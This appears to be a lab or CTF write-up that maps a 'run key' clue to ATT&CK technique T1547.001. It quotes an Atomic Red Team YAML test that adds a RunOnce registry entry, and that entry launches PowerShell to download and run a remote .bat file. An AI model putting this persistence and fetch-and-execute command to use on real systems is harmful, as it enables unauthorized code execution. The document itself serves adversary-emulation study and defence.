 As with Question 5, we'll use the ATT&CK Navigator to
search for 'run key'. The technique used is `T1547.001 'Boot
or Logon Autostart Execution: Registry Run Keys / Startup
Folder'`. 

![ATT&CK search for 'run key'](../img/6/o6-14.png)

Looking in the Atomic Red Team source for T1547.001 at
`https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1547.001`
shows a `batstartup.bat` file in the `src` directory, but it only
contains a single line of `echo " T1547.001 Hello World Bat"`. Searching
`T1547.001.yaml` finds a reference to another `.bat` file:

```yaml linenums="43" hl_lines="20"
- name: PowerShell Registry RunOnce
  auto_generated_guid: eb44f842-0457-4ddc-9b92-c4caa144ac42
  description: |
    RunOnce Key Persistence via PowerShell
    Upon successful execution, a new entry will be added to the runonce item in the registry.
  supported_platforms:
  - windows
  input_arguments:
    thing_to_execute:
      description: Thing to Run
      type: Path
      default: powershell.exe
    reg_key_path:
      description: Path to registry key to update
      type: Path
      default: HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
  executor:
    command: |
      $RunOnceKey = "#{reg_key_path}"
      set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
    cleanup_command: |
      Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
    name: powershell
    elevation_required: true
```
